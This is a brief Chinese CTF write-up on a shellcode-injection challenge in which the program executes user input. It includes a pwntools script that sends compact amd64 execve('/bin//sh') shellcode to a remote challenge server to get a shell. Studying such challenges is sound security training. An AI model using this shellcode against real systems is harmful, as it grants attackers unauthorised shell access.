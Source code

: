 ### 字节 ShellCode 注入

话不多说，直接上题（青少年 CTF 练习平台）

![](https://pic1.imgdb.cn/item/68175a7558cb8da5c8dc5379.png)

保护全开

![](https://pic1.imgdb.cn/item/68175a8e58cb8da5c8dc537a.png)

反编译发现将用户输入的数据当作函数调用

![](https://pic1.imgdb.cn/item/68175aa458cb8da5c8dc5382.png)

但是有长度限制，构造字节形式的 payload

```python
from pwn import *
 
p = remote('challenge.qsnctf.com', 32350)
context(os='linux', arch='amd64', log_level='debug')
 
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
 
p.send(shellcode)
p.interactive()
```

